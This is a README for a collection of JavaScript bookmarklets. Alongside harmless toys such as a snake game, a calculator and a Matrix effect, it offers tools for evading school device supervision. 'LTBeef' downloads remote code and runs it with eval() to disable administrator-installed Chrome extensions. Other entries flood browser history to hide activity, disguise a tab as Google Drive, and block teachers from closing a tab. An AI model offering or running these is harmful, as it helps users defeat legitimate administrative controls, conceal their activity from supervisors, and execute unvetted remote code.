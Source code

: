 # Bookmarklet Collection
### I do not condone any illegal/immoral use of these bookmarklets, these are listed strictly for educational purposes!

> ## Edit+
#### Edit+ is a toggleable way to edit any text on the page that the bookmarklet is used on, this is client side and does not cause damage to the site, will reset or reload.
`javascript:if(document.body.contentEditable != 'true')void(document.body.contentEditable = 'true');else void(document.body.contentEditable = 'false');`


> ## Calculator
#### Calculator is a popup box that can solve any simple math equation on any page you choose!
`javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()`


> ## History Flooder
#### Have something to hide? Use this bookmarklet to spam your history with your input of websites!
`javascript:var num=prompt("History flood amount: "); done = false; x = window.location.href; for (var i=1; i<=num; i++) {history.pushState(0, 0, i==num?x:i.toString()); if(i==num){done=true}}if(done===true){alert("History flood successful! "+window.location.href+" now appears in your history "+num+(num==1?" time.":" times."))}`


> ## X-Ray Googles
#### This lets you edit the raw HTMl of a page (Client-Sided)
`javascript:(function () {var script=document.createElement('script');script.src='https://x-ray-goggles.mouse.org/webxray.js';script.className='webxray';script.setAttribute('data-lang','en-US');script.setAttribute('data-baseuri','https://x-ray-goggles.mouse.org');document.body.appendChild(script);}())`


> ## Portable Minecraft
#### Play a mock minecraft on any webpage! Recovered by luphoria.
`javascript:(function(){window.mcbmRootURI='https://luphoria.com/MCanywhere/';window.mcbmScriptURI='mcbm.min.js';window.mcbmLang='eng';var s,ss=window.mcbmRootURI+'js/mcbm-load.min.js';s=document.createElement('script');s.src=ss;document.body.appendChild(s);})();`


> ## Portable Snake Game
#### Game window appears on your page that you can play snake on.

`javascript:Q=32;m=b=Q*Q;a=[P=l=u=d=p=S=w=0];u=8;f=(h=j=t=(b+Q)/2)-1;(B=(D=document).body).appendChild(x=D.createElement("p"));(X=x.style).position="fixed";X.left=X.top=0;X.background="#FFF%22;x.innerHTML=%22%3Cp%3E%3C/p%3E%3Ccanvas%3E%22;v=(s=x.childNodes)[0];(s=s[1]).width=s.height=5*Q;c=s.getContext(%222d%22);%20onkeydown=onblur=F=function(e,g){g?a[f]?(w+=m,f=Math.random(l+=8)*(R=Q-2)*R|(u=0),F(f+=Q+1+2*(f/R|0),g)):F(f):0%3Ee?(l?--l:(y=t,t=a[t]-2,F(y)),S+=(w*=0.8)/4,m=999/(u++%20+10),a[h+=[-1,-Q,1,Q][d=p]]?B.removeChild(x,alert(%22Game%20Over!\nThe%20game%20window%20will%20now%20be%20closed.\n\nMade%20by%203kh0%22)):(F(h),F(e,j=h),v.innerHTML=P?(setTimeout(F,50,e,0),S|0):%22Press%20P%20to%20play!%20Made%20by%203kh0%22)):-e?(y=(a[e]=e%3CQ|e%3E=Q*Q-Q|!(e%Q)|e%Q==Q-1|2*(e==h))+(e==f),e==h&&(a[j]=2+h),c.fillStyle=%22hsl(%22+99*!a[e]+%22,%22+2*m+%22%,%22+50*y+%22%)%22,c.fillRect(e%Q*5,5*(e/Q|0),5,5)):isNaN(y=e.keyCode-37)|43==y?(P=y&&!P)&&F(-1):%20p=!P|y&-4|!(y^2^d)?p:y;return!1};for(;--b;F(b));void%20F(-1);`

> ## Enter The Matrix
#### Do you choose the red or the blue pill?

`javascript:(function(){var%20wn=window,w,h,o={},m,dc,b,c='ABCDEFGHIJKLM1234567890nopqrstuvwxyz',y=setInterval,z=clearInterval,t=1;function%20x(){dc=document;b=dc.body;b.innerHTML='';bs=b.style;w=wn.innerWidth;h=wn.innerHeight;bs.backgroundColor='black';bs.overflow='hidden';m=y(n,25);dc.addEventListener('keydown',function(e){if(e.keyCode==83){if(t)z(m);else%20m=y(n,25);t=!t}},0)}function%20g(i){return%20dc.getElementById(i)}function%20r(d,m){return%20Math.floor(Math.random()*d)+m}function%20a(i){var%20d=g(i),ds=d.style,t=parseInt(ds.top),k=o[i];if(t<h){ds.top=(t+10)+'px'}else{z(k);b.removeChild(d);delete%20k}}function%20n(){var%20d=dc.createElement('div'),dt=new%20Date(),i='m_'+dt.getTime(),ds=d.style,v=ds.visibility,j=0,u=[],l=r(21,4),q=c.length,p;d.id=i;ds.width='5px';ds.opacity=r(.3,.7);ds.fontSize=r(8,8)+'px';ds.lineHeight='8px';ds.color='green';ds.position='absolute';ds.left=r(w,0)+'px';v='hidden';while(j<l){p=r(q,0);u[j]=c.substring(p,p+1);j++}d.innerHTML=u.join("\n");b.appendChild(d);ds.top=-d.offsetHeight+'px';v='visible';o[i]=y(function(){a(i)},r(20,40))}x();})()`


> ## LTBeef
#### Force disable admin installed extensions (go to chrome webstore)

`javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});`

> ## Google Drive Tab Disguise
#### Changes icon and title of tab to Google Drives

`javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://ssl.gstatic.com/docs/doclist/images/infinite_arrow_favicon_5.ico';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);`

> ## Secure Page
#### This bookmarklet makes your tab need extra confirmation to close (teachers cant force close)

`javascript:window.onbeforeunload = function() { return "Do you want to close"; }; alert("Tab Secured");`
